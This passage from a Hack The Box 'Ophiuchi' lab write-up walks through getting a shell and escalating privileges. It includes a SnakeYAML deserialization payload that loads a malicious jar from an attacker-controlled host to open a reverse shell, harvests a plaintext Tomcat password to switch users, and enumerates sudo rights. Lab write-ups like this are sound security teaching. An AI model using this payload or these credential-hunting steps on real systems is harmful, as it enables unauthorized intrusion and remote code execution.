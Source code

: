 ![copy_server](/posts/images/hack-the-box-ophiuchi-writeup/copy_server.png)  
**Figure 6:** Copy `yaml-payload.jar` to Apache's directory and start the server.

By placing the snippet below into the YAML parser, we'll download the payload we've just created and hosted, and execute it  on the victim machine (we must first not forget to start our netcat listener on port 8081)
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.3/yaml-payload.jar"]
  ]]
]
```

![execute_foothold](/posts/images/hack-the-box-ophiuchi-writeup/execute_foothold.png)  
**Figure 7:** Snippet placed in web application.

Once we click "parse" the payload is executed and our shell is obtained.  

![foothold](/posts/images/hack-the-box-ophiuchi-writeup/foothold.png)  
**Figure 8:** Reverse shell as tomcat user.


## User Flag  
Moving from the initial foothold to the user flag on this machine is fairly simple. After some manual enumeration we'll find that `/opt/tomcat/conf/tomcat-users.xml` contains a password `whereisalimit` for the `admin` user.

![users_xml](/posts/images/hack-the-box-ophiuchi-writeup/users_xml.png)  
**Figure 9:** The `tomcat-users.xml` file containing credentials for `admin` user.  

To login as the `admin` user, we'll first use the old `python3 -c 'import pty; pty.spawn("/bin/bash")'` trick to get an interactive shell, and then simply `su` with the credentials we've found.  
![users](/posts/images/hack-the-box-ophiuchi-writeup/user.png)  
**Figure 10:** The flag for the `admin` user.  

## Root Flag  
Running *[lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)* reveals that we're able to execute `/opt/wasm-functions/index.go` via sudo without a password.

```
[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
---
```
